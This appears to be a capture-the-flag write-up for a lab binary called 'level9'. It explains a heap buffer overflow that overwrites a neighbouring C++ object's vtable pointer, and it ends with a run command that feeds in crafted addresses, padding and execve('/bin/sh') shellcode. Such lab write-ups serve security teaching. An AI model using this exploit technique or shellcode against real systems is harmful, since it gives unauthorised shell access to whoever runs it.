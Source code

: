 # LEVEL9

## EXPLANATIONS

### BINARY BEHAVIOR

- program takes 1 argument

1. main calls `_Znwj` to allocate 2 heap zones of 108 bytes.
2. main calls `_ZN1NC2Ei` to fill those 2 heap zones with :
   - 1st heap zone `ptr1`:
     - `*ptr1 = &_ZTV1N` (function pointer)
     - `*(ptr1 + 104) = 5`
   - 2nd heap zone `ptr2` :
     - `*ptr2 = &_ZTV1N` (function pointer)
     - `*(ptr2 + 104) = 6`
3. main calls `_ZN1N13setAnnotationEPc`, which will copy `argv1` into `ptr1` from `ptr1 + 4`.
   - the size of this copy is controlled by argv1 length
4. main dereferences pointer stored in `*(ptr2 + 4)`
5. main dereferences resulting pointer to point to the actual function

### EXPLOIT STRATEGY

- As :
  - heap memory zones pointed by ptr1 and ptr2 are contiguous
  - we control the bytestring copied into ptr1
  - we control the length of this copy
- => We can overflow into ptr2
- As `*ptr2` is used as a double pointer :

  - we store address of `ptr1 + 4` into `*ptr2`
  - we store address of `ptr2 + 4` into `*(ptr1 + 4)`
  - from `ptr2 + 4` lies our shellcode

- When the main does the double dereferencing :
  - `ptr2 => ptr1+4 => ptr2+4 == shellcode`

### RUN COMMAND

```
python -c "print('\x08\x04\xa0\x7c'[::-1] + 'A' * 104 + '\x08\x04\xa0\x0c'[::-1] + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')" > /tmp/argv1_string
/home/user/level9/level9 $(cat /tmp/argv1_string)
```
